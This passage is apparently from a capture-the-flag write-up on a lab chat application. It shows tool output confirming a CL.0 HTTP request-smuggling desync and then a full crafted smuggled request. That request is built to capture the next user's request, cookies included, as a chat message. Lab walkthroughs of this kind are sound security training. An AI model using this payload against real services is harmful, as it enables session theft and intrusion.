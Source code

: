 ![Chat page with several loaded messages](ctf_elbandito_chat.png)

Having valid cookies I used [HTTP Request Smuggler](https://github.com/PortSwigger/http-request-smuggler) Burp extension to confirm possibility of poisoning HTTP queue:

```
Found issue: CL.0 desync: h2CL|TRACE /
Target: https://10.10.192.13
HTTP Request Smuggler repeatedly issued the attached request. After 1 attempts, it got a response that appears to have been poisoned by the body of the previous request. For further details and information on remediation, please refer to https://portswigger.net/research/browser-powered-desync-attacks
Evidence: 
...SNIP...
```

The extension found vulnerability using `Content-Length: 0` header (CL.0). I crafted a request to save next user request as a chat message:

```http
POST /send_message HTTP/2
Host: MACHINE_IP:80
Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.Z8tq_Q.gQXcvleCNmEbgOtBufFKNugsIP4
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://MACHINE_IP:80/messages
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Origin: https://MACHINE_IP:80
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers


POST /send_message HTTP/1.1
Host: MACHINE_IP:80
Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.Z8tq_Q.gQXcvleCNmEbgOtBufFKNugsIP4
Content-Type: application/x-www-form-urlencoded
Content-Length: 700
```